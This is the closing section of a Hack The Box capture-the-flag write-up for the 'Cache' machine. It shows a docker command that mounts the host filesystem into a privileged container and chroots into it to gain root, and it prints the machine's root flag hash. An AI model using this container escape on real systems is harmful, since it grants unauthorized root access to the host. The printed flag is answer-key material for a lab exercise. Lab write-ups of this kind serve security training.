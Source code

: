### Root.txt

```text
luffy@cache:~$ docker run -v /:/mnt --rm -it --privileged 2ca708c1c9cc chroot /mnt sh

# id &&hostname
uid=0(root) gid=0(root) groups=0(root)
5cbf7e7969b8
# cat /root/root.txt
90c1e62acc4d72f51790c2b63cc5c458
```

Thanks to [`<box_creator>`](https://www.hackthebox.eu/home/users/profile/<profile_num>) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

